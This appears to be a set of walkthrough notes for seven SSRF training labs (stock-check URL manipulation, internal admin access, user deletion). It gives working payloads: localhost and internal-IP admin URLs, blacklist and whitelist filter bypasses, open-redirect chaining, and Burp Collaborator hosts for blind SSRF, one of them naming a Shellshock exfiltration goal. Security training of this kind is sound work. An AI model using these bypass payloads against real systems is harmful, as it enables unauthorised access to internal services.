

# Ssrf - Walkthroughs

## Lab 01: Basic SSRF against the local server

## Vulnerability
stock check functionality

## Goal
change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

## Analysis

localhost - http://localhost/
admin interface - http://localhost/admin
delete carlos - http://localhost/admin/delete?username=carlos

python3 lab-01.py www.example.com

---

## Lab 02: Basic SSRF against another back-end system

## Vulnerability
stock check functionality

## Goal
 use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

## Analysis

application running on: http://192.168.0.190:8080/admin

delete carlos: http://192.168.0.190:8080/admin/delete?username=carlos

python3 script.py <url>

192.168.0.255

---

## Lab 03: SSRF with blacklist-based input filter

## Vulnerability
stock check functionality

## Goal
change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos

## Analysis

localhost: http://127.1/
admin interface: http://127.1/%25%36%31dmin
delete carlos:  http://127.1/%25%36%31dmin/delete?username=carlos

- URL decoding one time
- regex search using a blacklist of strings

python3 script.py <url>

---

## Lab 04: SSRF with whitelist-based input filter

## Vulnerability
stock check functionality

## Goal
change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 

## Analysis

localhost: http://localhost%2523@stock.weliketoshop.net
admin interface: http://localhost%2523@stock.weliketoshop.net/admin
delete user: http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

---

## Lab 05: SSRF with filter bypass via open redirection vulnerability

## Vulnerability
stock check functionality

## Goal
change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos. 

## Analysis

admin page: /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos

delete user: /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/

---

## Lab 06: Blind SSRF with out-of-band detection

## Vulnerability
Referer header when a product page is loaded

## Goal
use this functionality to cause an HTTP request to the public Burp Collaborator server. 

4difycaumkuwmm1y2f6vxj15uw0mob.burpcollaborator.net

---

## Lab 07: Blind SSRF with Shellshock exploitation

## Vulnerability
Referer header

## Goal
use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user. 

## Analysis
eew1khb8ubn388j60vcjqlc36uck09.burpcollaborator.net

---

